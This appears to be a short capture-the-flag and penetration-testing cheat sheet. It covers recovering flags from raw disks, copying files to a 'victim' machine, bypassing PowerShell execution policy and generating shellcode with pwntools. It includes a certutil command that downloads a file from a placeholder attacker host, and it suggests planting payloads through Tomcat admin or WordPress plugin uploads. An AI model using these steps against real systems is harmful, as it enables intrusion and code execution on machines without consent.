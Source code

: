 ## Recover Files from Deleted File Systems
* To Extract Flag from the file system - `strings /dev/sdb`
* Flag Recovery with regex `grep -a '[a-z0-9]\{32\}' /dev/sdb`
* `ssh username@remote_address "sudo dcfldd -if=/dev/sdb | gzip -1 ." | dcfldd of=extract.dd.gz` -- Used to get from Remote Hosts
* `gunzip -d extract.dd.gz`
* `binwalk -Me extract.dd`

## Transfer Files from Host to Target Machine
* Use `python -m SimpleHTTPServer` in the host folder.
* Use Apache and put files in `/var/www/html/` folder.
* If Tomcat is Opened, upload the file/payload using the Admin panel.
* If wordpress is running, upload the file as plugin.
* In Windows Victim, use `certutil -urlcache -f http://<HOST_IP>/<FILE_NAME> <OUTPUT_FILE_NAME>`

## Powershell
* To bypass execution policy `powershell.exe -exec bypass`

## BufferOverflow
* To generate shellcode quickly, we can use..
  * `python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh))`
  * `(python -c "import pwn;print(pwn.asm(pwn.shellcraft.linux.sh()))" ;cat) | ./vuln`
  

